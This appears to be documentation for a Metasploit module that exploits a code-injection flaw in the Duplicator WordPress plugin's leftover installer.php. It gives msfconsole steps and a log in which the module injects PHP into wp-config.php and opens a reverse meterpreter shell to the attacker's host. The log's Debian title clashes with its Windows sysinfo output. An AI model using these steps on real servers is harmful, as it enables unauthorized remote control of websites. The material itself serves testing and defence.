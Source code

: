 ## Vulnerable Application

Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the WordPress instance.

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wp_duplicator_code_inject`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running WordPress 4.9.8 with Duplicator 1.2.40

```
msf5 > use exploit/multi/php/wp_duplicator_code_inject
msf5 exploit(multi/php/wp_duplicator_code_inject) > set rhosts 192.168.37.247
rhosts => 192.168.37.247
msf5 exploit(multi/php/wp_duplicator_code_inject) > set targeturi /wordpress/installer.php
targeturi => /wordpress/installer.php
msf5 exploit(multi/php/wp_duplicator_code_inject) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/php/wp_duplicator_code_inject) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Checking if the wp-config.php file already exists...
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (38247 bytes) to 192.168.37.247
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.247:1251) at 2018-12-11 11:46:16 -0600
[*] Attempting to recreate wp-config file...
[*] Found archive name 20181127_test_site_126e49aaa44976fa5226181127215223_archive.zip
[*] Successfully created the wp-config.php file!

meterpreter > sysinfo
Computer    : WIN-0FAJA14JLP4
OS          : Windows NT WIN-0FAJA14JLP4 6.1 build 7601 (Windows 7 Enterprise Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```

